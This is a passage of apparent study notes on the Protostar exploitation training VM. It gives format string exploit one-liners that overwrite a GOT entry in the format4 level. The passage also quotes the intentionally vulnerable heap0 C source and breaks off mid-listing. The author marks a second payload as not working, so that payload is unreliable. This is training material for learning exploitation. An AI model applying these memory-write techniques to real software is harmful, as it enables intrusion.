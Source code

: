 
Exploit:

```bash
python -c 'print "AAAA" + "\x24\x97\x04\x08" + "%134513836c" + "%5$n"  ' | /opt/protostar/bin/format4
```

Alternatively...

```
Address of hello:
>>> 0x080484b4

1st = 0x0804  (in decimal -> 2052)

2nd = 0x84b4 (in decimal -> 33972)

LOW = 2052 - 8 = 2044
HIGH = 33972 - LOW = 33972 - 2044 = 31928

python -c 'print "\x24\x97\x04\x08" + "\x26\x97\x04\x08" + "%2044c" + "%6$hn" + "%31928c" + "%5$hn"' | /opt/protostar/bin/format4

WHY IT DOESNT WORK???
```

### Heap exploiting

#### `heap0`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

```